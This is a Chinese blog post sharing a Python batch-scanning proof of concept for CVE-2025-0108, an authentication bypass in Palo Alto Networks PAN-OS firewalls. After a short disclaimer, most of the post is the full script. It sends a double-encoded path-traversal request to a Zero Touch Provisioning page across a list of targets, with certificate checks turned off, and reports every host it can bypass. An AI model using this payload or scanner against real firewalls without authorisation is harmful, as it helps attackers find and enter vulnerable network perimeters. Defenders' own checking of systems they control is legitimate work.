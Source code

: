#  Palo Alto Networks PAN-OS 身份验证绕过漏洞批量检测脚本(CVE-2025-0108)   
iSee857  网络安全者   2025-02-15 16:00  
  
===================================  
免责声明请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。工具来自网络，安全性自测，如有侵权请联系删除。个人微信：ivu123ivu  
0x01 工具介绍  
Palo Alto Networks PAN-OS 身份验证绕过漏洞批量检测脚本(CVE-2025-0108)。  
0x02 安装与使用  
批量检测：  
  
python poc.py -f url.txt  
  
单个检测：  
  
python poc.py -u your-ip  
  
![image](https://mmbiz.qpic.cn/sz_mmbiz_png/0JJXjA8siccxOCI7wRFsMSoTmmvZ3NY3FrbWZqJAsypwfgmEgJlEZHIaB6Ua9Rf5X6rs4otVibpV0H2rIR8aJuMw/640?wx_fmt=png&from=appmsg "")  
  
![image](https://mmbiz.qpic.cn/sz_mmbiz_png/0JJXjA8siccxOCI7wRFsMSoTmmvZ3NY3FQ1uoLNmGd7kSibadX9uiaFKwqHGyOhOmHPoK8YCt6PTmpSQmicWVOyic2Q/640?wx_fmt=png&from=appmsg "")  
  
源码：  
```
import requests
import urllib3
from urllib.parse import urljoin,quote
import argparse
import ssl

ssl._create_default_https_context = ssl._create_unverified_context
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def banner():
    print("\033[36m" + """
    ****************************************************
    *                CVE-2025-0108                     *
    *             PanOs  身份认证绕过漏洞               *
    *                 作者: iSee857                    *
    ****************************************************
    """ + "\033[0m")

def read_file(file_path):
    with open(file_path, 'r') as file:
        urls = file.read().splitlines()
    return urls

def check(url):
    protocols = ['http://', 'https://']
    found_vulnerabilities = False


    for protocol in protocols:
        target_url = urljoin(protocol + url.lstrip('http://').lstrip('https://'), "/")

        target_url.rstrip("/")
        target_url1 = urljoin(target_url, "/unauth/%252e%252e/php/ztp_gate.php/PAN_help/x.css")
        print(target_url)
        headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36"
        }

        try:
            response1 = requests.get(target_url1, verify=False, headers=headers)
            if response1.status_code == 200 and 'Zero Touch Provisioning' in response1.text :              
                print(f"\033[31mFind:{url}:PanOs_CVE-2025-0108_LoginByPass!\033[0m")
                return True
        except Exception as e:
            pass

if __name__ == "__main__":
    banner()
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", "--url", help="URL")
    parser.add_argument("-f", "--txt", help="file")
    args = parser.parse_args()
    url = args.url
    txt = args.txt
    if url:
        check(url)
    elif txt:
        urls = read_file(txt)
        for url in urls:
            check(url)
    else:
        print("help")
```  
  
  
  
  
  
  
  
**·****今 日 推 荐**  
**·**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0JJXjA8siccx9U1mwsSiaEVzzrQ4Jgh2e6rU7PjcRtxl6SML2vpFejGyKK3ic3S34icnOIrKYudHXgDNhxKLe0HuYw/640?wx_fmt=png&from=appmsg "")  
  
  

